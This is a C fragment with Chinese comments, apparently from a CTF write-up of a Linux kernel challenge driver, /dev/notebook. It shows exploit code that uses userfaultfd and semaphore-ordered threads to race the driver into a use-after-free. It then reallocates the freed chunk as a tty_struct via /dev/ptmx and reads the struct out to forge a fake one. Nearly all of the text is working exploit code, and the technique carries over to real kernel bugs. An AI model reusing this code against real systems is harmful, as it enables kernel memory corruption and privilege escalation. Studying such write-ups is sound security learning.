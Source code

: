 ```c
    size_t origin_tty_struct[0x100] = {0, };
    // size_t origin_tty_operations[0x100] = {0, };
    size_t tty_operation_value = 0;
    size_t fake_tty_operation[0x100] = {0, };
    size_t fake_tty_struct[0x100] = {0, };


    // 准备工作，千万注意要绑定cpu核心...
    info("Starting to exploit...");
    save_status();
    bind_core(0);

    // 打开题目驱动文件notebook
    file_fd = open("/dev/notebook", 2);
    if(file_fd < 0)
    {
        error("Cannot open dev notebook.");
        exit(0);
    }

    // 先创建一个正常的book，并realloc大小为0x2e0(tty_struct)
    note_add(0, 0x60, "helloltfall");
    note_edit(0, 0x2e0, "test");

    // 注册一个userfaultfd。这里是使用的板子，作用就是让访问到这块匿名内存的线程卡住
    uffd_addr = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
    register_userfaultfd_for_thread_stucking(&monitor, uffd_addr, 0x1000);

    // 初始化信号量。我们使用信号量来控制线程的先后顺序。
    sem_init(&evil_add, 0, 0);
    sem_init(&evil_edit, 0, 0);

    info("Making UAF...");

    // 创建两个线程，第一个来构造UAF，第二个来修改其size。
    // 由于这两个线程的函数内部都需要信号量，因此需要调用对应的sem_post才会开始执行
    pthread_create(&edit_thread, NULL, make_UAF, NULL);
    pthread_create(&add_thread, NULL, fix_size, NULL);

    // 控制make_UAF函数执行
    sem_post(&evil_edit);

    sleep(1);

    info("Fixing Size...");

    // 控制fix_size函数执行修复size
    sem_post(&evil_add);

    sleep(1);

    info("Alloc tty_struct...");
    
    // 打开tty_struct结构体，此时我们的chunk0即指向该结构体，由于UAF
    tty_fd = open("/dev/ptmx", O_RDWR| O_NOCTTY);
    if(tty_fd < 0){
        error("Failed to open /dev/ptmx.");
        exit(0);
    }

    // 读取该tty_struct结构体的值到origin_tty_struct备份，并读到fake_tty_struct来修改
    note_read(0, origin_tty_struct);
    note_read(0, fake_tty_struct);
```
